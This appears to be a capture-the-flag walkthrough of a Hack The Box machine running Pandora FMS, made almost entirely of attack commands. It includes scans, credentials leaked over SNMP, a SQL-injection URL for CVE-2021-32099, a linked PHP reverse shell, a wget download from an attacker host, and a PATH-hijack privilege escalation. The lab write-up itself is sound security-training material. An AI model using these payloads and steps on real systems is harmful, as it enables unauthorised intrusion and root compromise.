 



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/783c0a61-c2ae-4652-a77c-8c615fa61310)


```
nmap -sU -T5 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/70bf96b2-f539-4e14-a866-3e1bf2fc1211)


```
snmpwalk -v 1 -c public 10.10.11.136
-u daniel -p HotelBabylon23
```
![image](https://github.com/regarmulia/HTB/assets/33616880/120ed051-63da-4d3b-927a-c419509d82c3)
![image](https://github.com/regarmulia/HTB/assets/33616880/38b03b03-c72d-4381-897e-14f64582dd2a)


```
ssh daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f28a9f8-4695-4394-84c3-145547d2a320)
![image](https://github.com/regarmulia/HTB/assets/33616880/d04e878e-cdee-49f6-a281-434d4dcfccb4)


```
ssh -D 9090 daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/857388f7-35c5-4472-9db5-3d88c6b8b6e5)
![image](https://github.com/regarmulia/HTB/assets/33616880/eba91bdb-2bca-4444-b4c9-542de52b1a69)
![image](https://github.com/regarmulia/HTB/assets/33616880/5bcddd33-ecda-4274-b889-0a4c003fd27a)


```
https://github.com/akr3ch/CVE-2021-32099
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
![image](https://github.com/regarmulia/HTB/assets/33616880/22da2deb-1455-46d3-8600-243ffca070fc)


```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6991e767-eb7a-414c-8e21-c3a28fa6f48e)
![image](https://github.com/regarmulia/HTB/assets/33616880/51e9ef10-a301-41e7-9e9f-eb9027136b49)
![image](https://github.com/regarmulia/HTB/assets/33616880/d490962d-28bd-41a9-be4f-4c217c931446)


```
git clone https://github.com/rebootuser/LinEnum.git
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
./LinEnum.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cc90b26-5b28-45a4-9e72-783e13039117)
![image](https://github.com/regarmulia/HTB/assets/33616880/84ea311d-860d-44de-bb27-bd6f7c761cf5)


```
cat .ssh/id_rsa.pub
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1921f65b-f11c-483e-af92-1ca195986c1b)


```
/usr/bin/pandora_backup
echo "/bin/bash" > /tmp/tar
chmod +x /tmp/tar
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
/usr/bin/pandora_backup
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c498fe5-d909-4f75-9df4-5f1701d14f48)
![image](https://github.com/regarmulia/HTB/assets/33616880/6e321060-68b7-45c0-aee4-6eac149b3465)


